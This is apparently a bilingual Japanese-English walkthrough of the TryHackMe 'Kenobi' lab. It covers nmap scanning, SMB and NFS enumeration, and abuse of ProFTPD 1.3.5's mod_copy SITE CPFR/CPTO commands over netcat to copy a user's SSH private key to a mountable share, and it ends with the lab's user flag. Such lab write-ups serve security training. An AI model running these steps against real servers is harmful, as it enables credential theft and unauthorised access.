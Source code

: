 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 4
:sectnums:
:sectanchors:
:sectlinks:

//////////////////////////////
// Contents
//////////////////////////////
= Kenobi solution

toc::[]

== [Task 1] Deploy the vulnerable machine

=== #1

==== T1_#1:En

Make sure you're connected to our network and deploy the machine

==== T1_#1:Ja

ネットワークに接続していることを確認し、マシンをデプロイしなさい

==== T1_#1:Solution

「Deploy」ボタンを押下

==== T1_#1:Answer

\-

=== #2

==== T1_#2:En

Scan the machine with nmap, how many ports are open?

==== T1_#2:Ja

nmapでマシンをスキャンしたら、openなポートはいくつありましたか？

==== T1_#2:Solution

[bash]
----
# nmap -T5 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 19:30 UTC
Nmap scan report for 10.10.204.92
Host is up (0.11s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
----

==== T1_#2:Answer

7

'''

== [Task 2] Enumerating Samba for shares

=== #1

==== T2_#1:En

Using nmap we can enumerate a machine for SMB shares. +
Nmap has the ability to run to automate a wide variety of networking tasks. +
There is a script to enumerate shares! ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMB has two ports, 445 and 139. +
Using the nmap command above, how many shares have been found?

==== T2_#1:Ja

nmapを使用すると、SMB共有用のマシンを列挙できます。 +
Nmapは、様々なネットワーキングタスクを自動実行する機能を備えています。 +
共有ディレクトリを列挙するスクリプトがあります！ ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMBには、445と139の2つのポートがあります。

++++
<p align="left">
  <img width="572" height="252" src="https://i.imgur.com/bkgVNy3.png">
</p>
++++

上記のnmapコマンドを使用して、いくつの共有ディレクトリが見つかりましたか？

==== T2_#1:Solution

[bash]
----
# 「-p 445」があるとSTATEがfilteredになって結果が得られない。「=」や「.nse」は無くてもOK
# nmap -T5 --script smb-enum-shares,smb-enum-users 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:00 UTC
Nmap scan report for 10.10.204.92
Host is up (0.087s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.204.92\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
|_smb-enum-users: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 48.06 seconds
----

==== T2_#1:Answer

3

=== #2

==== T2_#2:En

On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. +
"smbclient //<ip>/anonymous" Using your machine, connect to the machines network share. +
Once you're connected, list the files on the share. What is the file can you see ?

==== T2_#2:Ja

殆どのLinuxディストリビューションにインストールされているsmbclientコマンドで共有フォルダを検査してみよう。 +
マシンを使用して、「smbclient //<ip>/anonymous」を打ち、マシンのネットワーク共有フォルダに接続します。 +
その後、shareディレクトリのファイルを一覧表示した時、見つかるファイルは何ですか？

==== T2_#2:Solution

[bash]
----
# smbclient //10.10.204.92/anonymous
Enter WORKGROUP\GUEST's password: [PWは空打ち]
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 10:49:09 2019
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

                9204224 blocks of size 1024. 6877092 blocks available
----

==== T2_#2:Answer

log.txt

=== #3

==== T2_#3:En

You can recursively download the SMB share too. Submit the username and password as nothing. +
"smbget -R smb://<ip>/anonymous" Open the file on the share. +
There is a few interesting things found. 

* Information generated for Kenobi when generating an SSH key for the user.
* Information about the ProFTPD server.

What port is FTP running on?

==== T2_#3:Ja

下記コマンドを実行し、ユーザ名とPWを空で送信することで、SMB共有フォルダを再帰的にダウンロードできます。 +
 「smbget -R smb://<ip>/anonymous」で共有上のファイルを開きます。 +
 いくつかの興味深いものが見つかりました。

* ユーザのSSHキー生成時のKenobi用に生成された情報
* ProFTPDサーバーに関する情報

FTPはどのポートで実行されていますか？

==== T2_#3:Solution

[bash]
----
# smbget -R smb://10.10.204.92/anonymous
Password for [guest] connecting to //anonymous/10.10.204.92:
Using workgroup WORKGROUP, user guest
smb://10.10.204.92/anonymous/log.txt
Downloaded 11.95kB in 8 seconds
# ls
log.txt
# cat log.txt
Generating public/private rsa key pair.
～省略～
# This is a basic ProFTPD configuration file (rename it to
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName                      "ProFTPD Default Installation"
ServerType                      standalone
DefaultServer                   on

# Port 21 is the standard FTP port.
Port                            21
～省略～
----

==== T2_#3:Answer

21

=== #4

==== T2_#4:En

Your earlier nmap port scan will have shown port 111 running the service rpcbind.  +
This is just an server that converts remote procedure call (RPC) program number into universal addresses. +
When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. +
In our case, port 111 is access to a network file system. +
Lets use nmap to enumerate this. "nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP" What mount can we see?

==== T2_#4:Ja

以前のnmapポートスキャンでポート111がrpcbindサービスを実行していると分かった。 +
これは、Remote Procedure Call(RPC)プログラム番号をユニバーサルアドレスに変換するサーバーにすぎません。 +
RPCサービスが開始されると、当該サービスはrpcbindへ、lisstenしているアドレスと、それらを提供する準備ができているRPCプログラム番号を通知する。 +
この場合、ポート111はネットワークファイルシステムへのアクセスです。 +
「nmap -p 111 --script = nfs-ls、nfs-statfs、nfs-showmount MACHINE_IP」でこれを列挙してみよう。 +
どのマウントが見えますか？

==== T2_#4:Solution

[bash]
----
# 「-p 111」があるとSTATEがfilteredになって結果が得られない
# nmap -T5 --script nfs-ls,nfs-statfs,nfs-showmount 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:32 UTC
Nmap scan report for 10.10.204.92
Host is up (0.093s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
| nfs-showmount:
|_  /var *
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
----

==== T2_#4:Answer

/var

'''

== [Task 3] Gain initial access with ProFtpd


=== 準備

----
PS C:\Users\USER>docker cp <THM-UNAME>.ovpn <C-ID>:/etc/openvpn/<THM-UNAME>.ovpn
PS C:\Users\USER>docker exec -it <C-NAME> /bin/bash
mkdir -p /dev/net
mknod /dev/net/tun c 10 200
openvpn /etc/openvpn/<ユーザ名>.ovpn &
----

=== #1

==== T3_#1:En

Lets get the version of ProFtpd. +
Use netcat to connect to the machine on the FTP port. What is the version?

==== T3_#1:Ja

ProFtpdのバージョンを取得できます。 +
netcatを使用してFTPポートでマシンに接続します。バージョンは何か？

==== T3_#1:Solution

----
# nmap -T5 -sC -sV 10.10.203.16
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 02:46 UTC
Nmap scan report for 10.10.203.16
Host is up (0.10s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36914/udp6  mountd
|   100005  1,2,3      48461/tcp   mountd
|   100005  1,2,3      58861/udp   mountd
|   100005  1,2,3      60987/tcp6  mountd
|   100021  1,3,4      39997/udp   nlockmgr
|   100021  1,3,4      41018/udp6  nlockmgr
|   100021  1,3,4      43915/tcp6  nlockmgr
|   100021  1,3,4      45819/tcp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2020-07-25T21:46:44-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-26T02:46:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.90 seconds
----

==== T3_#1:Answer

1.3.5

=== #2

==== T3_#2:En

We can use searchsploit to find exploits for a particular software version. +
Searchsploit is basically just a command line search tool for exploit-db.com. +
How many exploits are there for the ProFTPd running?

==== T3-#2:Ja

searchsploitで特定のソフトウェアバージョンのエクスプロイトを見つけられます。 +
searchsploitは基本的に、exploit-db.comのコマンドライン検索ツールです。 +
ProFTPdを実行するためのエクスプロイトはいくつあるか？

==== T3_#2:Solution

----
# searchsploit ProFTPd 1.3.5
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                               | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                     | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                               | linux/remote/36742.txt
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
----

==== T3_#2:Answer

3

=== #3

==== T3_#3:En

You should have found an exploit from ProFtpd's mod_copy module. +
The mod_copy module implements SITE CPFR and SITE CPTO commands,  +
which can be used to copy files/directories from one place to another on the server. +
Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. +
We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

==== T3_#3:Ja

ProFtpdのmod_copyモジュールからエクスプロイトを見つけたはずです。 +
mod_copyモジュールは、SITE CPFRおよびSITE CPTOコマンドを実装しており、+
サーバー上のある場所から別の場所にファイル/ディレクトリをコピーするために使用できます。 +
認証されていないクライアントは、これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーできる。 +
FTPサービスがKenobiユーザーとして（共有上のファイルから）実行されており、そのユーザーのSSH鍵が生成されていることが分かっている。

==== T3_#3:Solution

-

==== T3_#3:Answer

-

=== #4

==== T3_#4:En

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.
We knew that the "/var" directory was a mount we could see (task 2, question 4). +
So we've now moved Kenobi's private key to the "/var/tmp" directory.

==== T3_#4:Ja

次に、SITE CPFRおよびSITE CPTOコマンドを使用して、ケノービの秘密鍵をコピーします。

++++
<p align="left">
  <img width="602" height="94" src="https://i.imgur.com/LajBhh2.png">
</p>
++++

「/var」ディレクトリが目に見えるマウントであることがわかっていました（T2_#4）。 +
そこで、Kenobiの秘密鍵を「/var/tmp」ディレクトリに移動しました。

==== T3_#4:Solution

----
# nc 10.10.203.16 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.203.16]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
----

==== T3_#4:Answer

-

=== #5

==== T3_#5:En

Lets mount the /var/tmp directory to our machine 

----
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

We now have a network mount on our deployed machine! +
We can go to "/var/tmp" and get the private key then login to Kenobi's account. +
What is Kenobi's user flag (/home/kenobi/user.txt)?

==== T3_#5:Ja

/var/tmpディレクトリをマシンにマウントしましょう

----
mkdir /mnt/kenobiNFS
mount 10.10.203.16:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

++++
<p align="left">
  <img width="567" height="346" src="https://i.imgur.com/v8Ln4fu.png">
</p>
++++

これで、展開したマシンにネットワークマウントができました。 +
「/var/tmp」に移動して秘密鍵を取得し、Kenobiのアカウントにログインします。 +

++++
<p align="left">
  <img width="493" height="44" src="https://i.imgur.com/Vy4KkEl.png">
</p>
++++

Kenobiのユーザーフラグ（/home/kenobi/user.txt）とは何ですか？

==== T3_#5:Solution

-

==== T3_#5:Answer

d0b0f3f53b6caa532a83915e19224899
